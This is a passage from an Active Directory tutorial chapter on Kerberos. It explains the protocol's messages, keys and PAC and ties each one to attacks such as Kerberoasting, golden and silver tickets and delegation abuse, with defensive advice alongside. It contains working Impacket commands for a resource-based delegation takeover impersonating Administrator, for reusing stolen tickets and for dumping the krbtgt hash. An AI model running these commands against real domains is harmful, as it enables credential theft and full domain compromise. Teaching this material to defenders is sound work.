







This is Chapter 5 of the Active Directory series — Notebook 4. Chapter 3 gave you
principals and the SIDs that identify them; Chapter 4 covered how policy and privilege
are applied and abused. This chapter dissects the protocol that ties it all together:
**Kerberos**, the authentication system every domain logon, file-share access, and
service connection ultimately runs on.

Almost every headline AD attack — **AS-REP roasting, Kerberoasting, Pass-the-Ticket,
Overpass-the-Hash, golden tickets, silver tickets, delegation abuse, DCSync-to-golden
persistence** — is a manipulation of a specific Kerberos message or ticket field. If
Kerberos is a black box, those attacks are memorised recipes. Once you can name every
message and know what key encrypts what, each attack becomes an obvious consequence of
the design. So we build the protocol from first principles, then map every field to its
offensive and defensive meaning.

## Who This Chapter Is For (and the Map Ahead)

You need Chapters 1–4: principals/SIDs (the PAC ships SIDs), DCs and the KDC role, and
the delegation types from Chapter 4 (their ticket mechanics live here). You do **not**
need prior crypto knowledge beyond "symmetric encryption uses a shared key".

The path:

- **Part 1** — the problem Kerberos solves and its three actors (client, KDC, service).
- **Part 2** — the key ingredients: long-term keys, session keys, and where each key
  comes from.
- **Part 3** — **AS-REQ / AS-REP**: getting a TGT (and pre-authentication).
- **Part 4** — inside a **TGT**: what it contains and why it's encrypted with `krbtgt`.
- **Part 5** — **TGS-REQ / TGS-REP**: exchanging a TGT for a service ticket.
- **Part 6** — **AP-REQ / AP-REP**: presenting the service ticket to the service.
- **Part 7** — the **PAC**: how group SIDs ride inside the ticket and why it's signed.
- **Part 8** — encryption types (RC4 vs AES) and why they matter to attackers.
- **Part 9** — the attacks, field by field: AS-REP roast, Kerberoast, PtT, OtH,
  golden, silver, and delegation (S4U).
- **Part 10** — hands-on lab: roast, pass, and forge tickets with Rubeus/Impacket.
- **Part 11** — pitfalls & misconceptions (clock skew, SPNs, double-hop).
- **Part 12** — consolidated Detection & Defense Angle.
- **Parts 13–15** — Final Revision, Cheat Sheet, Practice Labs.

## Part 1: The Problem Kerberos Solves, and Its Three Actors

Imagine a network with thousands of users and hundreds of services. You want a user to
prove who they are **once**, then access many services without re-typing a password —
and you want the user's password to **never** travel to those services. Kerberos
(originating at MIT, named for the three-headed dog guarding Hades — apt, given its
three parties) solves this with a trusted third party and time-limited **tickets**.

The three actors:

- **The client** — the user (or their machine), who wants to reach a service.
- **The KDC (Key Distribution Center)** — a service running on **every Domain
  Controller**. It has two logical halves: the **Authentication Service (AS)**, which
  issues TGTs, and the **Ticket-Granting Service (TGS)**, which issues service tickets.
  The KDC knows every principal's long-term key (it *is* the directory).
- **The service** — the resource the client wants (a file share via `CIFS`, SQL via
  `MSSQLSvc`, a web app via `HTTP`, etc.), identified by an **SPN** (Service Principal
  Name, from Chapter 3).

The core trick: the KDC shares a secret (a long-term key) with **every** principal
individually. It can therefore mint a message that only the client can read (encrypted
with the client's key) *and* a ticket that only a given service can read (encrypted with
that service's key), without the client and service ever having met. Trust flows through
the KDC.



Six messages, three exchanges. Learn these six and you know Kerberos. The rest of the
chapter is *what's inside each message and which key locks it*.

## Part 2: The Keys — Long-Term Keys, Session Keys, and Where They Come From

Kerberos is all about **who can decrypt what**. There are two categories of key:

**Long-term keys** — derived from a principal's password (or, for machines and modern
service accounts, a random secret). They rarely change. Every principal has one, and the
KDC knows them all:

- The **user's key** = a hash derived from the user's password (via string-to-key;
  RC4 = the NT hash, AES = PBKDF2-based). Used to encrypt the AS-REP portion meant only
  for the user.
- The **service's key** = derived from the **service account's** password. Used to
  encrypt the **service ticket** so only that service can read it. *(This is the key
  Kerberoasting cracks.)*
- The **`krbtgt` account's key** = derived from the `krbtgt` password. Used to encrypt
  the **TGT** so only the KDC can read it. *(This is the key golden tickets forge.)*

**Session keys** — random, short-lived keys the KDC generates fresh for each exchange to
secure ongoing communication:

- The **TGT session key** — shared between client and KDC for the TGS exchange.
- The **service session key** — shared between client and service for the AP exchange.

The elegant part: the KDC hands each session key to *both* parties who need it, but
encrypts each copy under a key only that party can open. You'll see exactly how in the
next parts.

| Key | Derived from | Encrypts | Attack that targets it |
|-----|--------------|----------|------------------------|
| User long-term key | User password (NT hash / AES) | AS-REP enc-part | AS-REP roasting |
| Service long-term key | Service account password | Service ticket (TGS) | Kerberoasting |
| `krbtgt` key | `krbtgt` password | TGT | Golden ticket |
| Machine key | Machine account password | Service ticket for HOST/CIFS | Silver ticket (per-service) |
| TGT session key | Random (KDC) | TGS-REQ authenticator | Pass-the-Ticket needs it |
| Service session key | Random (KDC) | AP-REQ authenticator | — |

### Kerberos vs NTLM — why the domain prefers tickets

Before Kerberos, Windows authenticated with **NTLM**, a challenge-response scheme.
Understanding the contrast clarifies *why* Kerberos exists and why so many attacks aim
to force a **downgrade back to NTLM**:

| Property | NTLM | Kerberos |
|----------|------|----------|
| Trusted third party | None (server validates via DC pass-through) | KDC issues signed tickets |
| Password/hash on the wire | Challenge-response over the hash | Never; only encrypted tickets |
| Mutual authentication | No (server not authenticated) | Yes (AP-REP) |
| Single sign-on | No | Yes (TGT reused for many services) |
| Delegation | Crude | First-class (S4U) |
| Replay protection | Weak | Timestamps + authenticators |
| Attacker downgrade goal | — | Force NTLM to enable relay |

Kerberos is the default whenever a client reaches a service **by SPN/hostname** and the
KDC is reachable; Windows falls back to NTLM when it connects **by IP address**, when no
SPN is registered, across certain trust or workgroup situations, or on clock-skew
failure. **Red-team relevance:** coercion tools (`PetitPotam`, `PrinterBug`) and
**NTLM relay** thrive on that fallback — forcing NTLM sidesteps Kerberos' protections.
**Blue-team relevance:** disabling NTLM where possible (or enforcing SMB signing / LDAP
channel binding / EPA) removes the relay surface; monitoring for unexpected NTLM
(event 4624 with `Authentication Package = NTLM` on machines that should use Kerberos)
flags downgrade attempts.

### Following one key through the whole flow

To cement Part 2, trace a *single* login and name the box each key opens:



Read top to bottom: the *user's* key opens only the AS-REP enc-part; the *krbtgt* key
locks the TGT; the *service's* key locks the service ticket; and the two **session
keys** (given to both parties) secure the ongoing authenticators. Steal any *long-term*
key and you can forge whatever that key locks — that single sentence generates the entire
attack catalogue in Part 9.

### Where tickets live — and why that enables theft

Tickets aren't just protocol messages; they're **cached** so single sign-on works, and
that cache is what Pass-the-Ticket steals from. Know the formats:

- **Windows:** tickets sit in the **LSA** (inside LSASS memory), keyed to each logon
  session. Tools read them as `.kirbi` blobs (Mimikatz `sekurlsa::tickets /export`,
  Rubeus `dump`). Because they live in LSASS, **local admin / SYSTEM on a host can
  harvest every logged-on user's tickets** — the core of PtT lateral movement.
- **Linux / Impacket:** tickets are stored as **`.ccache`** files, pointed to by the
  `KRB5CCNAME` environment variable. Converting between the two (`.kirbi` <-> `.ccache`)
  with `ticketConverter.py` is routine when pivoting between a Windows foothold and a
  Linux attack box.

```bash
ticketConverter.py stolen.kirbi stolen.ccache   # Windows blob -> Impacket cache
export KRB5CCNAME=stolen.ccache && klist          # now every Impacket tool uses it
```

**Blue-team relevance:** this is exactly why **Credential Guard** (which isolates LSASS
secrets in a VBS enclave) and **Protected Users** (short TGT lifetime, no delegation)
blunt ticket theft — they shrink what an attacker with local admin can pull from memory.
The ticket cache is the bridge from "I have admin on one box" to "I have a Domain Admin's
TGT", so protecting it is central to containing lateral movement.

## Part 3: AS-REQ / AS-REP — Getting a TGT

The first exchange authenticates the user and issues a **Ticket-Granting Ticket (TGT)**.

**AS-REQ (client → KDC).** The client says "I am `jsmith@CORP.LOCAL`, I want a TGT."
To prove it's really `jsmith` and not an impostor requesting a roastable blob, the
client includes **pre-authentication** data: a timestamp encrypted with the user's
long-term key (`PA-ENC-TIMESTAMP`). Only someone who knows `jsmith`'s password could
encrypt a *current* timestamp with `jsmith`'s key.

**AS-REP (KDC → client).** The KDC decrypts the pre-auth timestamp with the user's key
(from the directory), checks it's fresh (within clock skew — Part 11), and if valid
returns two things:

1. The **TGT** itself — encrypted with the **`krbtgt` key** (so *only the KDC* can later
   read it; the client cannot). Inside: the user's identity, the **TGT session key**,
   validity times, and the **PAC** (Part 7).
2. An **enc-part** for the client — encrypted with the **user's long-term key** —
   containing a *copy* of the **TGT session key** and ticket metadata.

```mermaid
sequenceDiagram
    participant C as Client (jsmith)
    participant KDC as KDC (DC)
    C->>KDC: AS-REQ: I'm jsmith + PA-ENC-TIMESTAMP{now}_Kuser
    KDC->>KDC: Decrypt timestamp with jsmith's key; verify freshness
    KDC-->>C: AS-REP: TGT{ session key, PAC, ... }_Kkrbtgt  +  encpart{ session key }_Kuser
    Note over C: Decrypts encpart with own key -> gets TGT session key.<br/>Stores opaque TGT (cannot read it).
```

**Attack relevance — AS-REP roasting.** Pre-auth is *per-account optional*. If an
account has **"Do not require Kerberos preauthentication"** set (`DONT_REQ_PREAUTH`,
UAC `0x400000` from Chapter 3), the KDC will send the AS-REP **without** checking any
password — meaning **anyone** can request it and receive the enc-part encrypted with the
user's key. Crack that blob offline to recover the password. That is **AS-REP roasting**:
no credentials needed, just the fact that pre-auth is disabled. Enumerate such accounts
with the Chapter 3 LDAP filter and roast them.

## Part 4: Inside a TGT — the Ticket Only the KDC Can Read

A **TGT** is the client's proof, for the rest of its ~10-hour lifetime, that it already
authenticated. Critically, the TGT is **encrypted with the `krbtgt` account's key**, so
the client holds it as an opaque blob it cannot inspect or modify — but every KDC in the
domain can (they all share the `krbtgt` key via replication).

Inside a TGT:

- The client's principal name and realm.
- The **TGT session key** (also given to the client separately in the AS-REP enc-part).
- Start time, end time (renew-till), and flags (forwardable, renewable, etc.).
- The **PAC** — the user's SIDs and group memberships (Part 7).

Two immense consequences follow from "the TGT is encrypted with the `krbtgt` key":

1. **The KDC does not remember tickets.** Kerberos is largely stateless — the DC trusts a
   TGT purely because it decrypts correctly with the `krbtgt` key and hasn't expired. It
   doesn't check a database of "tickets I issued".
2. **Anyone who knows the `krbtgt` key can forge a TGT for anyone.** This is the
   **golden ticket**: with the `krbtgt` hash (obtained via DCSync, Chapter 4), an
   attacker mints a TGT claiming to be *Administrator* with *Domain Admins* in the PAC,
   valid for years, that every DC will honour — because the only check is "does it
   decrypt with `krbtgt`?" Rotating the `krbtgt` password (twice) is the only cure, and
   it's why `krbtgt` (RID 502) is the domain's single most sensitive secret.

## Part 5: TGS-REQ / TGS-REP — Trading the TGT for a Service Ticket

Now the client wants a specific service (say `CIFS/FS01.corp.local`). It doesn't
re-authenticate with its password — it presents the TGT.

**TGS-REQ (client → KDC).** The client sends: the **TGT** (still opaque to it), the
**SPN** of the service it wants, and an **authenticator** — a fresh timestamp encrypted
with the **TGT session key** (proving the client actually holds the session key that
belongs with this TGT, not just a stolen TGT blob... though a stolen TGT *includes* the
session key — see Pass-the-Ticket).

**TGS-REP (KDC → client).** The KDC decrypts the TGT with the `krbtgt` key, pulls out
the session key, validates the authenticator, then issues a **service ticket (TGS)**:

1. The **service ticket** — encrypted with the **service account's long-term key** (so
   only that service can read it). Inside: the client's identity, a new **service session
   key**, validity, and a **copy of the PAC**.
2. An **enc-part** for the client — encrypted with the **TGT session key** — containing a
   copy of the **service session key**.

```mermaid
sequenceDiagram
    participant C as Client
    participant KDC as KDC (TGS)
    C->>KDC: TGS-REQ: TGT{...}_Kkrbtgt + SPN=CIFS/FS01 + authenticator{now}_Ktgt-session
    KDC->>KDC: Decrypt TGT with krbtgt key; verify authenticator
    KDC-->>C: TGS-REP: ST{ svc-session key, PAC, client }_Kservice  +  encpart{ svc-session key }_Ktgt-session
    Note over C: Gets service session key. Holds opaque ST for the service.
```

**Attack relevance — Kerberoasting.** Notice: the KDC will issue a service ticket for
**any SPN** to **any authenticated user**, and that ticket is encrypted with the
**service account's password-derived key**. So any domain user can request a ticket for
`MSSQLSvc/db01` and receive a blob encrypted with the SQL service account's key — then
crack it **offline** to recover that account's password. That's **Kerberoasting**. It
works because (a) any user can ask for any SPN's ticket, and (b) service accounts often
have weak, human-set passwords. The fix (Chapter 3): long random passwords or gMSA, and
disabling RC4 (Part 8) so tickets use AES (much slower to crack).

## Part 6: AP-REQ / AP-REP — Presenting the Ticket to the Service

Finally the client talks to the service directly.

**AP-REQ (client → service).** The client sends the **service ticket** plus a new
**authenticator** encrypted with the **service session key**. The service decrypts the
ticket with *its own* long-term key (it never contacts the KDC to do this), extracts the
service session key, and uses it to validate the authenticator. If it checks out, the
client is authenticated — and the service reads the **PAC** to learn *who the client is
and what groups they're in*, building the access token (Chapter 3) locally.

**AP-REP (service → client, optional).** For **mutual authentication**, the service
returns the client's timestamp encrypted with the service session key, proving it too
holds the right key (i.e. it really is the service, not an impostor).

```mermaid
sequenceDiagram
    participant C as Client
    participant S as Service (CIFS/FS01)
    C->>S: AP-REQ: ST{ svc-session key, PAC }_Kservice + authenticator{now}_Ksvc-session
    S->>S: Decrypt ST with own key; verify authenticator; read PAC -> build token
    S-->>C: AP-REP: {client timestamp}_Ksvc-session  (mutual auth, optional)
    Note over S: Access decision uses PAC SIDs vs the resource DACL (Chapter 3)
```

**Attack relevance — silver ticket.** The service validates the ticket **entirely on
its own**, using only its long-term key — the KDC is not consulted at AP-REQ time. So an
attacker who knows a **service account's** key (or a machine account's key) can **forge a
service ticket directly** — a **silver ticket** — with any PAC they like, and the service
will accept it without the DC ever knowing. Silver tickets are stealthier than golden
(no KDC interaction, no TGT) but scoped to one service on one host. This is also why
**PAC validation** (the optional step where the service asks the KDC to verify the PAC
signature) matters for defense.

## Part 7: The PAC — How Group SIDs Ride Inside the Ticket

The **PAC (Privilege Attribute Certificate)** is the bridge between this chapter and
Chapter 3. It is a structure embedded inside the TGT and every service ticket that
carries the user's **authorization data**: their SID, their **group SIDs**
(`SidHistory` too), logon info, and — crucially — **two signatures**.

Why it exists: Kerberos proves *identity*, but Windows access control needs *group
membership* (the token in Chapter 3 is built from SIDs). Rather than have every service
query the DC for "what groups is this user in?", the KDC stamps the answer into the
ticket as the PAC. The service reads the PAC and builds the token locally — fast and
offline.

The PAC's two signatures are the security control:

- The **server signature** — computed with the *service's* key.
- The **KDC signature** — computed with the *`krbtgt`* key.



**Attack relevance.** The PAC is *the* thing forged in golden/silver tickets — you put
`Domain Admins` (RID 512) and `Enterprise Admins` (519) SIDs into the PAC and sign it
with the key you stole. It was also the subject of major vulnerabilities:
**MS14-068** (the KDC accepted a PAC with a forged/absent signature, letting any user
mint a Domain Admin PAC) and the 2021–2022 **PAC validation / Sam-the-admin** and
**certifried** issues. The modern hardening (PAC signature changes, "PAC requestor" SID,
enforced validation) all exists because the PAC is trusted for authorization. **Blue-
team relevance:** keep DCs patched for PAC CVEs and enable PAC validation where feasible.

## Part 8: Encryption Types — RC4 vs AES and Why Attackers Care

Every encrypted part above uses an **etype** (encryption type). The ones you meet:

| etype | Cipher | Key source | Attacker significance |
|-------|--------|-----------|------------------------|
| 23 (`RC4_HMAC`) | RC4 | **NT hash** (unsalted MD4) | Cracks fast; NT hash *is* the key → enables Overpass-the-Hash & fast roasting |
| 17 (`AES128`) | AES-128-CTS | PBKDF2(password, salt) | Salted, slow to crack |
| 18 (`AES256`) | AES-256-CTS | PBKDF2(password, salt) | Strongest common; slow to crack |
| 1/3 (`DES`) | DES | legacy | Broken; should be disabled entirely |

Two attacker-relevant facts:

- **RC4 tickets are cracked far faster** than AES because the key is the unsalted NT
  hash. Attackers *request RC4 explicitly* when roasting (Rubeus `/rc4opsec` or
  `/tgtdeleg` tricks) if the account allows it. **Downgrade to RC4 is a roasting
  enabler** — disable RC4 domain-wide (`msDS-SupportedEncryptionTypes`) so tickets are
  AES.
- Because the **RC4 key == NT hash**, possessing an NT hash lets you request Kerberos
  tickets directly (**Overpass-the-Hash / Pass-the-Key**): you don't need the plaintext,
  the hash is the long-term key.

**Blue-team action:** set `msDS-SupportedEncryptionTypes` to AES-only on accounts and
the domain, monitor for **RC4 (etype 0x17)** ticket requests (event 4769) which often
signal roasting, and retire DES/RC4.

### String-to-key, salts, and why AES resists cracking

The reason RC4 tickets crack faster than AES isn't the cipher speed alone — it's the
**key derivation**. Understanding it tells you exactly why disabling RC4 is so effective:

- **RC4 (etype 23):** the Kerberos key *is* the **NT hash** = `MD4(UTF-16LE(password))`.
  It is **unsalted** and computed with a single fast hash. So a `$krb5tgs$23$...` blob
  can be attacked at billions of guesses/second, and the recovered key is the NT hash
  itself (usable directly for Pass-the-Hash / Overpass-the-Hash).
- **AES (etype 17/18):** the key = `PBKDF2-HMAC-SHA1(password, salt, 4096 iterations)`
  where the **salt** is `REALM + username` (e.g. `CORP.LOCALjsmith`). The salt defeats
  precomputation/rainbow tables, and 4096 iterations slash guess rate by orders of
  magnitude. The recovered AES key is also *not* reusable as an NT hash.

```
RC4 key   = MD4(pw)                    # unsalted, 1 iteration  -> fast, hash == key
AES256 key= PBKDF2(pw, "CORP.LOCALjsmith", 4096, SHA1)  # salted, 4096 iters -> slow
```

**In practice, roasters force RC4.** A `TGS-REQ` can advertise which etypes the client
supports; tools like Rubeus (`/rc4opsec`, `/tgtdeleg`) and `GetUserSPNs.py` request
**RC4** service tickets when the target account still permits them, precisely because the
resulting blob cracks orders of magnitude faster. This is why the single most impactful
Kerberoasting mitigation is **removing RC4** from
`msDS-SupportedEncryptionTypes` on every account and the domain: an AES-only account
yields an `$krb5tgs$18$...` blob that is usually infeasible to crack for any decent
password.

| Blob prefix | etype | Hashcat mode | Crack speed (relative) |
|-------------|-------|--------------|------------------------|
| `$krb5tgs$23$` | RC4 | 13100 | very fast |
| `$krb5tgs$18$` | AES256 | 19700 | very slow |
| `$krb5asrep$23$` | RC4 | 18200 | very fast |
| `$krb5asrep$18$` | AES256 | 32300 | very slow |

## Part 9: The Attacks, Field by Field

Every attack below is now just "which key did the attacker obtain, and which message
does that let them forge or crack?"



- **AS-REP roasting** — pre-auth disabled → request AS-REP → crack the user's key
  offline. (Part 3.)
- **Kerberoasting** — any authenticated user requests a service ticket for a target SPN →
  crack the service account's key offline. (Part 5.)
- **Pass-the-Ticket (PtT)** — steal a TGT or service ticket from a machine's memory
  (LSASS/Mimikatz `sekurlsa::tickets`, Rubeus) and inject it into your own session; the
  ticket already contains the session key, so the DC/service accept it. No password.
- **Overpass-the-Hash / Pass-the-Key** — with a user's NT hash (RC4 key) or AES key,
  request a fresh TGT directly (Rubeus `asktgt`), converting a hash into full Kerberos
  access.
- **Silver ticket** — with a *service* or *machine* account key, forge a service ticket
  directly; the service validates it alone (Part 6), so it's stealthy but per-service.
- **Golden ticket** — with the **`krbtgt`** key, forge an arbitrary TGT with any PAC;
  every DC honours it (Part 4). The premier domain-persistence technique.
- **Delegation abuse (S4U)** — using **S4U2self** and **S4U2proxy** (the constrained/
  RBCD flows from Chapter 4), a service with delegation rights obtains a service ticket
  *as any user* to a back-end. Chapter 4 set up the attributes; this is the ticket flow
  they trigger.

Every one of these is a direct read-off from Parts 2–7: identify the key, identify the
message, and the attack names itself.

### Delegation at the ticket level — S4U2self and S4U2proxy

Chapter 4 configured the *attributes* (`msDS-AllowedToDelegateTo`,
`msDS-AllowedToActOnBehalfOfOtherIdentity`). Here is the actual ticket dance they enable,
using two protocol extensions:

- **S4U2self** ("Service for User to self") — lets a service obtain a service ticket **to
  itself, on behalf of an arbitrary user**, *without that user's involvement*. The
  service ends up holding a usable ticket that names any user it likes.
- **S4U2proxy** ("Service for User to proxy") — takes that ticket and requests a service
  ticket **to a back-end SPN** on the user's behalf, provided the service is trusted to
  delegate to that SPN.



The abuse: if an attacker controls a principal with **RBCD** configured on a target (they
wrote `msDS-AllowedToActOnBehalfOfOtherIdentity` on the target, using a machine account
they created via the default `MachineAccountQuota` from Chapter 3), they run S4U2self +
S4U2proxy to obtain a service ticket **as Domain Admin** to that target — full compromise
of the target, no password cracked. Worked end to end from Linux:

```bash
# 1) Create a computer account we control (default MachineAccountQuota=10)
addcomputer.py CORP/jsmith:'Passw0rd!' -computer-name 'FAKE01$' -computer-pass 'Fake123!' -dc-ip 10.10.10.5

# 2) Write RBCD on the target so FAKE01$ may act on behalf of others
rbcd.py CORP/jsmith:'Passw0rd!' -delegate-from 'FAKE01$' -delegate-to 'TARGET01$' -action write -dc-ip 10.10.10.5

# 3) S4U: get a CIFS ticket to TARGET01 impersonating Administrator
getST.py -spn cifs/target01.corp.local -impersonate Administrator \
    'CORP/FAKE01$:Fake123!' -dc-ip 10.10.10.5
```

```
[*] Getting TGT for FAKE01$
[*] Impersonating Administrator
[*]   Requesting S4U2self
[*]   Requesting S4U2proxy
[*] Saving ticket in Administrator@cifs_target01.corp.local@CORP.LOCAL.ccache
```

```bash
# 4) Use it — Pass-the-Ticket, no password
export KRB5CCNAME=Administrator@cifs_target01.corp.local@CORP.LOCAL.ccache
psexec.py -k -no-pass CORP/Administrator@target01.corp.local
```

This is the ticket flow behind the delegation risks Chapter 4 flagged — the attributes
were the setup; S4U is the payload.

### The full golden-ticket persistence chain

Golden tickets are the canonical "own the domain forever" technique; seeing the whole
chain shows how Chapters 3–5 compose:



```bash
# Extract krbtgt (needs DA or replication rights - Chapter 4 DCSync)
secretsdump.py -just-dc-user krbtgt CORP/Administrator@10.10.10.5

